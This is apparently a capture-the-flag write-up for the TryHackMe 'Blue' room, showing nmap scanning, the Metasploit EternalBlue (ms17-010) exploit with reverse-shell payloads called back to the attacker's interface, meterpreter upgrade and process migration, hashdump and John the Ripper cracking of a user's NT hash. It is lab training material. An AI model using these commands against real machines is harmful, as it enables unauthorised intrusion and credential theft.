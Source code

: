 ```yaml
---
title:  "Blue"
author: fireblood
categories: [TryHackMe, Offensive Pentesting]
tags: [tryhackme, blue, ms17-010, metasploit, privilege escalation]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/images/02.Blue/blue.jpeg
---
```


Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

<!--more-->

## Task 1

Scan the machine for open ports and vulnerabilities using nmap.

```shell
nmap -sVC --script vuln  10.10.91.185
```

<img src="{{'/assets/img/images/02.Blue/01.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/02.Blue/02.png' | prepend: site.baseurl }}">

From the scan results we can see that the machine is vulnerable to ms17-010.

## Task 2

Let's open metasploit.

```shell
msfconsole -q
```

Search for the exploit ms17-010 and use exploit/windows/smb/ms17_010_eternalblue.

```shell
search ms17-010
```

```shell
use 0
```

<img src="{{'/assets/img/images/02.Blue/03.png' | prepend: site.baseurl }}">

### Approach 1

The payload is set by default to windows/x64/meterpreter/reverse tcp.

See the available options and change the rport and lhost.

```shell
show options
```

```shell
set rhosts 10.10.91.185
```

```shell
set lhost tun0
```

<img src="{{'/assets/img/images/02.Blue/04.png' | prepend: site.baseurl }}">

Run the exploit.

```shell
exploit
```

We now got a meterpreter shell. Let's quickly find out the information about the machine. We are logged in as nt authority\system. Now we have all privileges to the machine.

<img src="{{'/assets/img/images/02.Blue/05.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/02.Blue/06.png' | prepend: site.baseurl }}" height="400">

### Approach 2

Set the payload to windows/x64/shell/reverse_tcp.

```shell
set payload windows/x64/shell/reverse_tcp
```
See the available options and change the rport and lhost.

```shell
show options
```

```shell
set rhosts 10.10.91.185
```

```shell
set lhost tun0
```

<img src="{{'/assets/img/images/02.Blue/07.png' | prepend: site.baseurl }}">

Run the exploit.

```shell
exploit
```
We now got a shell and we will elevate this shell to meterpreter shell. Background the shell by hitting Ctrl+Z.

<img src="{{'/assets/img/images/02.Blue/08.png' | prepend: site.baseurl }}">

Use the module post/multi/manage/shell_to_meterpreter to get a meterpreter shell from the existing non-meterpreter shell.

Set lhost, session and run it.

```shell
set lhost tun0
```

```shell
set session 2
```

```shell
exploit
```

<img src="{{'/assets/img/images/02.Blue/09.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/02.Blue/10.png' | prepend: site.baseurl }}">

## Task 3

Let's check whether we are running as nt authority\system or not using getsystem.

```shell
getsystem
```

We are already running as SYSTEM and run ps to list all the processes.

```shell
ps
```

<img src="{{'/assets/img/images/02.Blue/11.png' | prepend: site.baseurl }}">

We will now migrate to a different process that is running as NT AUTHORITY\SYSTEM.

```shell
migrate 704
```

<img src="{{'/assets/img/images/02.Blue/12.png' | prepend: site.baseurl }}" height="100">

## Task 4

We can run hashdump in the meterpreter shell to get the hashes.

<img src="{{'/assets/img/images/02.Blue/13.png' | prepend: site.baseurl }}">

Then we will crack the hash of user Jon with John The Ripper.

```shell
john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

<img src="{{'/assets/img/images/02.Blue/14.png' | prepend: site.baseurl }}">

## Task 5

Now let's find the flags. The first flag is located in the location C:\ .

<img src="{{'/assets/img/images/02.Blue/15.png' | prepend: site.baseurl }}">

The second flag is located at the location where passwords are stored. The passwords are stored in SAM file. So, the second flag would be in the location C: \windows\system32\config.

<img src="{{'/assets/img/images/02.Blue/16.png' | prepend: site.baseurl }}" height="100">

<img src="{{'/assets/img/images/02.Blue/17.png' | prepend: site.baseurl }}" height="100">

The third flag is located in the Documents folder of the user Jon.

<img src="{{'/assets/img/images/02.Blue/18.png' | prepend: site.baseurl }}" height="400">
